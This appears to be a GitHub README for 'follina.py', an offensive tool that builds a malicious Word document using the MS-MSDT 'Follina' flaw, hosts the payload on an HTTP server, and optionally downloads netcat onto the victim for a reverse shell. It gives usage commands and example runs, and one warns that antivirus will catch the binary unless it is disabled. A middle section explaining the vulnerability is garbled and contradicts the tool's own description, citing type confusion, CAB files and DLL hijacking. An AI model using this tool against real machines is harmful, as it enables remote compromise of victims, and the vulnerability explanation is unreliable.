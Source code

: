 # MS-MSDT "Follina" Attack Vector

--------------

This Python script generates a maldoc, that executes a PowerShell command on the target machine. It also sets up an HTTP server to deliver the malicious payload to the target machine.

The script takes several arguments, including the command to be executed on the target machine, the name and location of the output maldoc file, the network interface or IP address to host the HTTP server, the port to serve the HTTP server, and the port to serve the reverse shell on.

The script first parses the supplied interface to determine what to reach out to. It then copies a Microsoft Word skeleton into a temporary staging folder, prepares a temporary HTTP server location, and modifies the Word skeleton to include the HTTP server. The script then rebuilds the original office file and creates the maldoc.

Next, the script encodes the PowerShell command as base64 and creates a unique MS-MSDT payload that is over 4096 bytes at minimum. It then creates an HTML endpoint and hosts the HTTP server on all interfaces.

If the user has specified a reverse shell, the script downloads and executes a Netcat binary to establish a reverse shell on the target machine. The script creates a new thread to host the HTTP server and starts it. The anti-virus on the target system can flag the Netcat binary being downloaded so be careful.

--------------

The Microsoft MSDT-Follina zero-day vulnerability is a type confusion bug that allows attackers to execute arbitrary code on a victim's computer. The vulnerability was first discovered in early 2021 and is actively being exploited in the wild. Here's how the vulnerability works in detail:

Initial infection: The attackers initially infect a victim's computer using a phishing email or other social engineering techniques. The payload is typically delivered through a malicious document or a link to a website hosting the exploit.

Exploit delivery: The exploit uses the vulnerability in the Microsoft Diagnostic and Recovery Toolset (MSDaRT) to execute arbitrary code on the victim's computer. The vulnerability exists because of the way the MSDaRT toolset processes a specific type of file, called a cabinet file (CAB).
The ms-msdt payload needs to be at least 4096 bytes in size because the payload is being delivered via a technique known as DLL search order hijacking. When a DLL is loaded by a Windows process, Windows will search for the DLL in several locations, including the current directory of the process. By creating a file with the same name as a DLL that the process is trying to load, an attacker can cause the process to load the attacker's file instead. However, if the attacker's file is smaller than the original DLL, the process may try to read beyond the end of the file and cause a crash. To avoid this, the attacker needs to ensure that the size of the malicious file is at least as large as the original DLL. In the case of the ms-msdt payload, the original DLL is typically around 4 KB in size, so the attacker needs to create a file of at least that size to avoid crashes.

Type confusion: The vulnerability is a type confusion bug, which means it occurs when the program mistakenly uses an object of one type as if it were an object of another type. In this case, the vulnerability arises because the MSDaRT toolset does not properly check the type of objects when processing CAB files.

Memory corruption: The exploit triggers a memory corruption vulnerability in the MSDaRT toolset by providing it with a specially crafted CAB file that causes the toolset to allocate memory incorrectly. This creates a situation where an attacker can control the contents of memory and execute arbitrary code.

Payload execution: The exploit then executes the attacker's payload, typically a Remote Access Trojan (RAT), which allows the attacker to take full control of the victim's computer. The RAT can be used to steal sensitive data, install additional malware, or perform other malicious actions.

Detection evasion: The attackers typically use various techniques to evade detection by antivirus software, including packing the payload with custom packers, encrypting the payload, or using fileless techniques.

The MSDT-Follina zero-day vulnerability is a serious threat to users of Windows operating systems. Microsoft has released a patch to fix the vulnerability, and users are strongly advised to update their systems as soon as possible to prevent exploitation. Additionally, users should be cautious when opening email attachments or clicking on links from unknown sources to avoid falling victim to phishing attacks.

--------------

Here is a step-by-step explanation of the code:

The script imports several libraries, including argparse, zipfile, tempfile, shutil, os, netifaces, ipaddress, random, base64, http.server, socketserver, string, and threading.
The script defines several command-line arguments using the argparse library. These arguments include the command to run on the victim's machine, the output maldoc file name, the network interface or IP address to host the HTTP server, the port to serve the HTTP server, and the port to serve the reverse shell on.
The script defines a function called "main" that takes in the command-line arguments as an argument.
The script attempts to parse the supplied interface by creating an instance of the IPv4Address class from the ipaddress library. If that fails, it attempts to use the netifaces library to get the IP address of the supplied interface. If both attempts fail, it prints an error message and exits.
The script creates a temporary folder to stage the Microsoft Word document skeleton and then copies the skeleton to that folder.
The script prepares a temporary location for the HTTP server.
The script modifies the Word skeleton to include the HTTP server.
The script rebuilds the original Office file.
The script encodes the command to run on the victim's machine using base64 encoding.
The script creates a unique MS-MSDT payload that is over 4096 bytes at minimum.
The script creates an HTML endpoint and writes the HTML payload to the endpoint.
The script defines a custom server class called ReuseTCPServer that reuses the TCP socket and binds to it.
The script defines a custom handler class called Handler that logs messages and requests only when the reverse shell is not enabled.
The script defines a function called serve_http that starts the HTTP server and serves requests forever.
The script starts the HTTP server on all interfaces and prints a message to indicate that it is serving the HTML payload.
The script checks if the reverse shell is enabled. If it is, it sets the command to run to include the Invoke-WebRequest command to download and execute a Netcat executable from GitHub.
The script encodes the command again, this time using base64 encoding.
The script creates another HTML payload that includes the new command and replaces the old payload.
The script writes the new HTML payload to the index.html file.
The script starts a new thread to serve the HTTP server.
The script waits for the thread to finish.
The program exits.
--------------

Create a "Follina" MS-MSDT attack with a malicious Microsoft Word document and stage a payload with an HTTP server.

![Screenshot](https://user-images.githubusercontent.com/6288722/171033876-dbe73e3e-0a3a-436a-91d8-7fa77a5c1ace.png)

# Usage

```
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

# Examples

Pop `calc.exe`:

```
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop `notepad.exe`:

```
$ python3 follina.py -c "notepad"
```

Get a reverse shell on port 9001. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**

```
$ python3 follina.py -r 9001
```

![Reverse Shell](https://user-images.githubusercontent.com/6288722/171037880-03a73d6a-4606-4c42-abcb-ee52a9e669c6.png)
